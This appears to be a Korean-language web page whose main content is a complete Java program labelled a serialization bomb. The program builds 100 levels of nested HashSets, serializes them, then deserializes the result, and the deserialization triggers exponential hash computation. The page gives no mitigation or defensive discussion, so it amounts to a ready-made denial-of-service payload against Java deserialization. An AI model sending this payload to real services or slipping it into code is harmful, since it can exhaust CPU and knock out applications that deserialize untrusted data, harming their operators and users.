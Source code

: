 

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

아래는 중첩된 HashSet 객체를 사용한 직렬화 폭탄의 예제입니다:

```java
import java.io.*;
import java.util.HashSet;
import java.util.Set;

public class SerializationBomb {

    public static byte[] createBomb() throws IOException {
        Set<Object> root = new HashSet<>();
        Set<Object> s1 = root;
        Set<Object> s2 = new HashSet<>();

        for (int i = 0; i < 100; i++) {
            Set<Object> t1 = new HashSet<>();
            Set<Object> t2 = new HashSet<>();
            t1.add("foo"); // t1과 t2가 다르게 만듭니다
            s1.add(t1);
            s1.add(t2);
            s2.add(t1);
            s2.add(t2);
            s1 = t1;
            s2 = t2;
        }

        return serialize(root);
    }

    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }

    public static void main(String[] args) {
        try {
            byte[] bomb = createBomb();

            // 폭탄을 역직렬화합니다
            ByteArrayInputStream bais = new ByteArrayInputStream(bomb);
            ObjectInputStream ois = new ObjectInputStream(bais);
            Object obj = ois.readObject();
            ois.close();

            System.out.println("역직렬화된 객체: " + obj);
        } catch (IOException | ClassNotFoundException e) {
            e.printStackTrace();
        }
    }
}
```
